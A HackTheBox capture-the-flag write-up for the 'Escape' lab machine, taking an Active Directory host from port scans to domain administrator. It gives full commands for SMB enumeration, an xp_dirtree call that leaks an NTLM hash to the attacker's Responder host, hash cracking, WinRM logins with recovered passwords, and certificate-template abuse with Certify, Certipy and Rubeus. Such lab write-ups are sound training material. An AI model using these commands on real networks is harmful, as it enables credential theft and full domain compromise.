 <h2> Target: 10.10.11.202 Escape</h2>

<b>Initial Access:</b><br>
Step 1: nmap 10.10.11.202 -Pn --min-rate=5000 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Nmap shows open ports:<br> 53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49687,49688,49704,49712,57663

Step 2: Enumerate these open ports further using nmap: nmap 10.10.11.202 -Pn --min-rate=5000 -p 53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49687,49688,49704,49712,57663 -sC -sV -oN nmap-escape

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/3653d8b6-4f2b-4213-89bf-7178ff3085e1)

Step 3: Nmap shows domain names, enter them into the file /etc/hosts: 10.10.11.202  sequel.htb  dc.sequel.htb

Step 4: Find usernames: lookupsid.py sequel.htb/anonymous@10.10.11.202| awk '{print $2}' |sed 's/sequel\\//g' > ulist→ when prompted for password just press ‘enter’ 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/8ce7aa7e-be10-43c5-8e72-9c7d3efee58d) 
 
Delete the non usernames returned in the list so that the username list only contains the following:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/a2e62caa-e92e-43f7-ab3f-5ce814e695f7) 

Step 5: Check if we can read any smb shares with any of the usernames we found: for i in \`cat ulist\`;do smbmap -H sequel.htb -u $i;done

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/d2006ea2-860d-4716-acf6-6c0b3badc0fa)

Smbmap shows username ‘guest’ has read access to ‘public’ and ‘IPC$’. 

Step 6: Check if we have anything interesting in the ‘Public’ share: <br>
smbclient //sequel.htb/Public -U guest → press ‘enter’ when prompted for a password.

Once we are in smbclient run the command ‘ls’:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/617f3413-1b3b-4ba0-83ec-e72191c94555)

Smbclient shows we have a file called "SQL Server Procedures.pdf".  Download this file using command: get “SQL Server Procedures.pdf”

Step 7: Open the pdf document using command: xdg-open 'SQL Server Procedures.pdf':

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/9c4d83aa-92bf-4263-b344-8476bd06f20b) 

The document shows credentials for a Database: PublicUser:GuestUserCantWrite1

Step 8: Nmap showed we have port 1433 open which is for mssql database.  Try the credentials for mssql: mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202

We log in successfully. 

Step 9: Try to steal hash of sql user.  First set up responder to catch the hash: sudo responder -I tun0

Next, in mssql shell run the command: xp_dirtree '\\10.10.14.93\any\thing'


![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/8a14909c-8b77-4374-9ac4-570fdb3ff662) 

Responder captured sql_svc’s hash.  Save the hash in a file called ‘hash’. 

Step 10: Before we use john to crack the hash, use the command ‘nth’ to ensure we are giving john the correct format value: nth -f hash

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/7c897e84-4d88-4c05-b2cc-f8cd63adf2dd) 

nth shows the correct format value for john is netntlmv2

Step 11: Use john to crack the hash: john hash --wordlist=/usr/share/wordlists/rockyou.txt –format=netntlmv2 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/72d3d1a4-487b-4075-9c34-cf41d3e39d16)

John cracked the hash: REGGIE1234ronnie

Step 12: Check if we can login to winrm using this password:  crackmapexec winrm sequel.htb -u ulist-kerbrute -p REGGIE1234ronnie

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/21772897-8511-4631-8026-351367cf7fba) 

crackmapexec shows we can log into winrm using user sql_svc with the password REGGIE1234ronnie.

Step 13: Log into winrm: evil-winrm -i sequel.htb -u sql_svc -p 'REGGIE1234ronnie'
________________________________________________________
<b>Lateral Movement:</b><br>

Step 1: The file C:\SQLServer\Logs\ERRORLOG.BAK shows a failed logon by a user called ‘NuclearMosquito3’.  This is not a username in our username list ‘ulist’.  It seems like this may be a password that was mistakenly typed in as a username:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/6f691c9c-8148-4963-bf13-e39acc5699db) 

Step 2: Check if that password works with one of the usernames in our ‘ulist’ file: crackmapexec smb sequel.htb -u ulist-kerbrute -p "NuclearMosquito3" --continue-on-success
 
![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/4a8f7332-69a7-472e-ab22-28ceccaaffec) 

Crackmapexec shows username Ryan.Cooper has password NuclearMosquito3.

Step 3: Log into winrm: evil-winrm -i sequel.htb -u Ryan.Cooper -p "NuclearMosquito3"

We have a shell as user Ryan.Cooper.  We can get the flag in C:\Users\Ryan.Cooper\Dekstop\user.txt
________________________________________
<b>Privilege Escalation:</b><br>
Step 1: whoami /groups

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/a7657dab-d5a7-42fe-a343-43067472dcd7) 

Step 2: The group ‘Certificate Service DCOM Access’ looks interesting.  Google search “BUILTIN\Certificate Service DCOM Access  exploit” finds plenty of articles on how to exploit this group:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/ab7b281c-77a5-4cb3-bd50-6d6a98bf286b) 
  
Reading some articles reveals that when vulnerable we can use this group to create a golden ticket.  We can check if the target is vulnerable and create a golden ticket using either ‘certify’ or ‘certipy’.  We will first show this with ‘certify’ (steps 3-10) and then we will show how to perform this with ‘certipy’ (located after step 10).  

Step 3: Download certify (https://github.com/GhostPack/Certify), compile it into .exe, and upload Certify.exe to the target.  

Step 4: Check if the target has a vulnerable template by running the following command on the target shell:<br>  ./Certify.exe find /vulnerable

The output to this command shows that it has a vulnerable template:
![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/3b54f84f-8087-4699-84b2-69dcf3a7e5a3) 

Step 5: In order to perform the next command we will need the ‘CA Name’ and the ‘Vulnerable Template Name’.  Both of these values can be found in the output to the previous command (see screenshot above).  

Generate a certificate containing an RSA private and public key by running the following on the target shell: ./certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator 

Step 6: On our local pc create a file called ‘cert.pem’ that contains the RSA private and public key we generated in the previous command.  

Step 7: On our local pc, convert the cert.pem to a cert.pfx by using the command: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Upload the cert.pfx file to the target. 

Step 8: Use the cert.pfx to create a ticket.  In order to do this we will need rubeus.exe.  Download rubeus (https://github.com/GhostPack/Rubeus), compile rubeus into rubeus.exe, and upload rubeus.exe to the target.   

Step 9: Create a golden ticket by running on the target shell the following command ./rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /outfile:administrator.kirbi /ptt
 
After the command executes successfully, we will have a file called administrator.kirbi that contains our golden ticket:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/45ce78f7-2e09-45ca-82f4-5832601c8b30)
 
Step 10:  Download the administrator.kirbi to our local pc.  

On our local pc, convert the administrator.kirbi to administrator.ccache: impacket-ticketConverter administrator.kirbi administrator.ccache
__________________________________________
Steps 3-10 used ‘certify’, we will now show how steps 3-10 can be performed using ‘certipy’.   If you just want to use ‘certify’ then you can skip this and continue onto step 11.

First, find if vulnerable, get CA name, and the vulnerable template name by running on our local pc the command: certipy-ad find -u Ryan.Cooper@sequel.htb -p NuclearMosquito3 -dc-ip 10.10.11.202 -debug

Next, create a pfx file by running on our local pc the command: certipy-ad req -u Ryan.Cooper@sequel.htb -p NuclearMosquito3 -ca sequel-DC-CA -debug -template UserAuthentication -upn Administrator@sequel.htb

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/8b03315f-8618-41d1-a296-f8e2b4b36a8b) 
 
Finally, get a golden ticket and create a .ccache file by running on our local pc the command: certipy-ad auth -pfx 'administrator.pfx' -username 'Administrator' -domain 'sequel.htb' -dc-ip 10.10.11.202


![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/00c8e84c-653e-4fef-b780-ea7a6370c6d1) 
______________________________________________

Step 11: On our local pc, set the KRB5CCNAME environment variable to administrator.ccache.  We can do this by running the command: export KRB5CCNAME=administrator.ccache  

The command ‘export KRB5CCNAME=administrator.ccache’ specifies the location and name of the Kerberos credential cache file. The credential cache file (administrator.ccache in this example) stores the user's Kerberos tickets, which are used to authenticate the user to services within the realm without requiring the user to re-enter their password.  By setting the KRB5CCNAME environment variable to administrator.ccache, the Kerberos-related utilities and services on the system will know where to find the credential cache file and use it for authentication purposes.

Step 12: In order for the attack to work we need to make sure our pc time is synced with the target time.  We can do this by running the command: ntpdate 10.10.11.202

Step 13: Log into the target shell as the Administrator: psexec.py sequel.htb/Administrator@dc.sequel.htb -no-pass -k

We can get the flag in C:\Users\Administrator\Desktop\root.txt
